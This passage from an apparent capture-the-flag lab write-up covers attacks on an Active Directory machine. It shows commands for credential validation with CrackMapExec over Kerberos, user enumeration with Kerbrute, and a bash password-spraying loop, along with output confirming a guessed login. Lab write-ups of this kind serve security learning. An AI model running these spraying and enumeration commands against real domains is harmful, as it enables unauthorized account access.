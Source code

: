 We can validate these credentials with the [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) tool and using the following command (remember that the `SMB` port is open and that `NTLM` authentication has been disabled, so we have to use `Kerberos` authentication):

```bash
cme smb 10.10.11.168 -k -u 'ksimpson' -p 'ksimpson'
```

So, just guessing, we will have the following correct credentials:

```text
AD -> ksimpson -> ksimpson
```
{: file="enum/access/credentials.txt"}

### 2nd Way: Kerberos Brute-Force

If you are not a guess person, you can always brute-force the `Kerberos` service in order to find users and passwords on the `AD`.

First, we will start enumerating users on the `AD`. In order to do that, we will use the [Kerbrute](https://github.com/ropnop/kerbrute) tool and the `xato-net-10-million-usernames.txt` wordlist from [SecLists](https://github.com/danielmiessler/SecLists):

![Desktop View](userSpray.png){: w="700" h="400" }
_User Enumeration_

We will find the following usernames and we will save them in a file named `users.txt`:

```text
ksimpson
administrator
asmith
jhall
sjenkins
khicks
```
{: file="credentials/access/users.txt"}

Now, we will try to do a password spraying. We will use the `users.txt` file for both users and passwords. As the `Kerbrute` tool only allows testing a single password for a username list, we will use the following `for` in `Bash` to fix this problem:

```bash
for pass in $(cat users.txt); do kerbrute bruteuser -d scrm.local --dc dc1.scrm.local users.txt $pass; done
```

```text

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 09/22/22 - Ronnie Flathers @ropnop

2022/09/22 17:16:15 >  Using KDC(s): [0m
2022/09/22 17:16:15 >  	scrambled.htb:88

2022/09/22 17:16:15 >  [+] VALID LOGIN:	 ksimpson@SCRM.LOCAL:ksimpson
2022/09/22 17:16:15 >  Done! Tested 6 logins (1 successes) in 0.370 seconds

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        
```